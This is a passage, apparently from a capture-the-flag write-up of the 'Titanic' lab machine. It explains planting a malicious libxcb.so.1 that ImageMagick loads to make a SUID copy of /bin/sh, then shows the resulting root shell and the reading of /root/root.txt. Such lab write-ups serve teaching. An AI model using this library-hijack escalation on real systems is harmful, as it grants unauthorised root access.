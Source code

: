This `libxcb.so.1` file will be loaded by Magick and it will make a new copy of `/bin/sh` with SUID permissions, so we can execute it and get a root shell. Now we have to wait up to a minute for the script to be executed.

```sh
developer@titanic:/tmp$ ./sh -p
# id
uid=1000(developer) gid=1000(developer) euid=0(root) groups=1000(developer)
# cat /root/root.txt
4b7fba7422bcd1bf6d48799cc5d1****
```

That second flag was certainly a lot harder than the user flag!
